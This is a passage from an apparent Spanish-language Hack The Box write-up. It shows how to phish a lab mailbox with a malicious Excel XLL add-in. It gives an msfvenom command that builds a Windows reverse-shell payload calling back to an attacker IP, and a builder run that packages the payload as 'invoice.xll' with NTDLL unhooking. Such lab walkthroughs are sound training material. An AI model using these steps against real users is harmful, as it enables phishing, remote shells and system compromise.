 Bien, como leímos en la segunda imagen, podemos mandar un documento Excel con facturas o peticiones a `accounts@axlle.htb`, lo que evidentemente es para cuestiones de transacciones. No podemos enviar un documento de Excel con macros ya que como también nos lo indican, están deshabilitados.

Entonces, ¿Qué hacemos? Bien, si buscamos por internet formas que se han utilizado para hacer phishing con documentos de Excel, encontraremos una [muy interesante](https://blog.knowbe4.com/use-of-excel-.xll-add-ins-soars-nearly-600-to-infect-systems-in-phishing-attacks):

![XLL](/assets/writeups/axlle/3.png)

Los archivos de extensión XLL funcionan como los DLLs, solo que estos están especialmente compilados para ser integrados como plugins de Excel, es posible utilizar esto para hacer phishing y ganar ejecución de comandos en equipos remotos. Vamos a intentar usar esto para enviarnos una consola interactiva.

Hay varias formas de poder crear un XLL: puedes utilizar la documentación de Microsoft o directamente herramientas que te crean XLLs especificamente para phishing como [esta](https://github.com/zimnyaa/xyrella)

Podemos crearnos un XLL que nos ejecute un ping primero creando un shellcode para inyectar, se puede hacer fácilmente con msfvenom:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.191 LPORT=443 -o payload.bin -f raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: payload.bin
```

Ahora procedemos a la creación del archivo especial:

```bash
❯ python build.py -s payload.bin -o invoice.xll

                        _ _       
                       | | |       
 _   _ _   _  ____ ____| | | ____ 
( \ / ) | | |/ ___) _  ) | |/ _  |
 ) X (| |_| | |  ( (/ /| | ( ( | |
(_/ \_)\__  |_|   \____)_|_|\_||_|
      (____/       Nim XLL builder PoC v0.2.1               

| cross-compilation unstable
| NTDLL unhooking: on
| hide excel window: off
| release mode: off
| generating stageless payload
| encryption: off
! should be saved to:  invoice.xll
```
